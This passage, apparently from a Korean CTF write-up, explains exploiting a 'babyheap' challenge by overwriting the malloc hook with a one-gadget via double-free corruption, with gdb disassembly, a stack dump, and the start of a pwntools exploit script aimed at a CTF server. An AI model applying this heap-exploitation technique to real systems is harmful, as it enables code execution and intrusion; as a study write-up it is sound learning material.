 malloc hook에 임의의 값을 집어넣고, double free corruption을 발생시켜서 `malloc()` 안쪽으로 들어가보자.

```bash
gdb-peda$ pd __GI___libc_malloc
Dump of assembler code for function __GI___libc_malloc:
...
   0x00007ffff7a91136 <+6>:	mov    rax,QWORD PTR [rip+0x33fdb3]        # 0x7ffff7dd0ef0
   0x00007ffff7a9113d <+13>:	mov    rax,QWORD PTR [rax]
   0x00007ffff7a91140 <+16>:	test   rax,rax
   0x00007ffff7a91143 <+19>:	jne    0x7ffff7a91298 <__GI___libc_malloc+360>
...
   0x00007ffff7a91298 <+360>:	mov    rsi,QWORD PTR [rsp+0x18]
   0x00007ffff7a9129d <+365>:	add    rsp,0x8
   0x00007ffff7a912a1 <+369>:	pop    rbx
   0x00007ffff7a912a2 <+370>:	pop    rbp
=> 0x00007ffff7a912a3 <+371>:	jmp    rax
...
End of assembler dump.
```

이 부분이 malloc hook이 작동하는 부분이다. `0x7ffff7dd0ef0`에는 malloc hook의 주소가 저장되어 있기 때문에 `__GI___libc_malloc+16`에서 `rax`는 malloc hook에 저장되어 있는 값이고, 0이 아니면 `__GI___libc_malloc+360`으로 점프하여 진행하게 된다. 그리고 `__GI___libc_malloc+371`에서 malloc hook에 저장되어 있는 주소로 점프한다. 이때 메모리를 보면 다음과 같다.

```bash
gdb-peda$ x/20gx $rsp
0x7fffffffcab8:	0x00007ffff7df3eda	0x000000001ebf88b1
0x7fffffffcac8:	0x00007ffff7fd8df9	0x00007fffffffcb90
0x7fffffffcad8:	0x00007ffff7def5ef	0x3638782f62696c2f
0x7fffffffcae8:	0x756e696c2d34365f	0x696c2f756e672d78
0x7fffffffcaf8:	0x732e735f63636762	0x00007fff00312e6f
0x7fffffffcb08:	0x0000000000000000	0x0000000090000001
0x7fffffffcb18:	0x00007ffff7def5c4	0x0000000000000000
0x7fffffffcb28:	0xffffffff00000000	0x0000000000000000
0x7fffffffcb38:	0x000000000f8bfbff	0x0000000000040f12
0x7fffffffcb48:	0x00007ffff7fd8df9	0x000000000000024e
```

`rsp+0x50`에 `NULL`이 저장되어 있는 것을 확인할 수 있다. 오프셋이 `0xf02a4`인 one gadget을 사용하면 우리가 원하는 대로 작동할 것이다.(사실 가젯을 고를 때 이렇게 디버깅까지 하면서 정확하게 할 필요는 없는 것 같다. 그냥 이것저것 써 보다가 되는 거 하나 찾으면 끝.)

---

```python
# exploit_babyheap.py

from pwn import *

# r = process("./babyheap")
r = remote("ctf.j0n9hyun.xyz", 3030)

offset_setvbuf = 0x6fe70 # offset of setvbuf() from libc base
offset_mallochook = 0x3c4b10 # offset of malloc hook from libc base
offset_onegadget = 0xf02a4 # offset of onegadget from libc base

def Malloc(size, content):
    r.recvuntil("> ")
    r.sendline("1")
    r.recvuntil("size: ")
    r.sendline(str(size))
    r.recvuntil("content: ")
    pause()
    r.send(content)

def Free(index):
    r.recvuntil("> ")
    r.sendline("2")
```